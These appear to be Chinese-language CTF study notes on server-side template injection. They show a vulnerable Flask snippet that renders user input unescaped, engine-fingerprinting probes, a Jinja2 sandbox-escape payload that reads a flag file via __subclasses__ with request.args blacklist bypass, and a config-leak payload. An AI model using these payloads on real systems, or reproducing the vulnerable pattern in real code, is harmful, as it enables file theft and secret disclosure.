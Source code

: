 
系统的认识 SSTI 注入:

是一种利用 Web 应用程序的模板渲染机制执行恶意代码的安全漏洞

前面这两种利用均是 SSTI

其原理是将恶意模板语法注入服务端模板中:

Web 应用常使用模板引擎（如 Jinja2、Thymeleaf、Freemarker）动态生成 HTML。例如：

#### Flask (Python) + Jinja 渲染

```python
# Flask + Jinja2 示例
from flask import render_template_string
name = request.args.get('name')
output = render_template_string(f"Hello, {name}!")  # 用户输入直接拼接到模板
```
正常输入：name=Alice → 渲染 Hello, Alice!

恶意输入：name={{7*7}} → 渲染 Hello, 49!（执行了计算）

{{7*'7'}} -> 49 -> twig

{{7*'7'}} -> 7777777 -> jinjia2

#### Flask 沙箱逃逸

如果服务器对 read(), subclass() 等关键方法做了过滤, 但是没有过滤 request(), 那么就可以利用黑名单做沙箱逃逸:

`request` 是 Flask 框架的一个全局对象 , 表示 "当前请求的对象(flask.request) " 。

所以我们可以利用 **request.args + GET传参**绕过输入黑名单，进行沙箱逃逸。其实就是闯过重重黑名单，最终拿到系统命令执行权限的过程。

payload: `{{''[request.args.a][request.args.b][2][request.args.c]()[40]('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')[request.args.d]()}}?&a=__class__&b=__mro__&c=__subclasses__&d=read`

其实就是吧之前的 payload 用 request 的方式重构了

#### 快速判断框架

payload = `{{7*7}}` 判断是否有注入

payload = `{{7*'7'}}`, 结果若为 `'7777777'` 则说明一定为 jinja2 或者 Twig 引擎 (这是他们的特性)

#### Tornado

Tornado 模板允许执行任意 Python 表达式（比 Jinja2 更开放）：Tornado 无内置沙箱，模板中可直接调用 `__import__`、`open` 等危险函数

#### 常见绕过:

思路: [CSDN](https://blog.csdn.net/qq_33020901/article/details/83036927)

- 不需要 `()` 直接读取 `self`  `config` 的payload:
 `{{ url_for.__globals__['current_app'].config}}`

- `request` + GET 传参绕过黑名单沙箱逃逸: `{{''[request.args.a][request.args.b][2][request.args.c]()[40]('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')[request.args.d]()}}?&a=__class__&b=__mro__&c=__subclasses__&d=read`
